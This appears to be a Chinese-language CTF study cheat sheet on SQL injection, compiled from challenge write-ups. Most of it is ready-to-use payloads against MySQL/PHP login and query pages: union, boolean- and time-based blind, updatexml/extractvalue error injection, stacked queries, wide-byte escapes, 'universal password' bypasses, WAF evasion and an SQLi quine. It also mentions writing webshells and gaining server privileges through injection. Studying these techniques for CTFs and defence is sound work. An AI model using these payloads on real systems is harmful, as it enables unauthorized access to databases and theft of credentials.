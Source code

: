 ## 常见

| 考点                     |                                                                            |
| ------------------------ | -------------------------------------------------------------------------- |
| 0.测试                   | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询               | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注) | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入) |                                                                            |
| [5.堆叠注入](#5堆叠注入) |                                                                            |

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

## 常见的 SQL 注入考点 CTF-123458

```
    3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

    6.二次注入:通过在一处输入点构造sql语句，在第二处触发
               -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
    7.宽字节注入:通过数据库编码错误来绕过字符转义
                sql = 'select *from user where id=\''.$id.'\'';
                GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
                GET方式 id=1%df' union select 1,database(),3%23
                POST方式-没有url解码 username=1汉') or 1=1#
                        -配合盲注完成
    9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
    10.sql注入提权:通过sql注 入获取服务器权限
    - 读取数据 见0x10
    - 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
                ()替换空格or(1)=(1) , or('1')='1'
    load_file
    head 注入 useragent进行报错注入
    MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

    SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
                http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
                https://www.shysecurity.com/post/20140705-SQLi-Quine
                'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#

```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

综合分析

| Column    | 测试 1  | 测试 2 |
| --------- | ------- | ------ |
| ?id=1''   | ?id='1' |        |
| $id       | 1''     | '1'    |
| $id 结果  | 正常    | 正常   |
| '$id'     | '1'''   | ''1''  |
| '$id'结果 | 正常    | 错误   |

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```
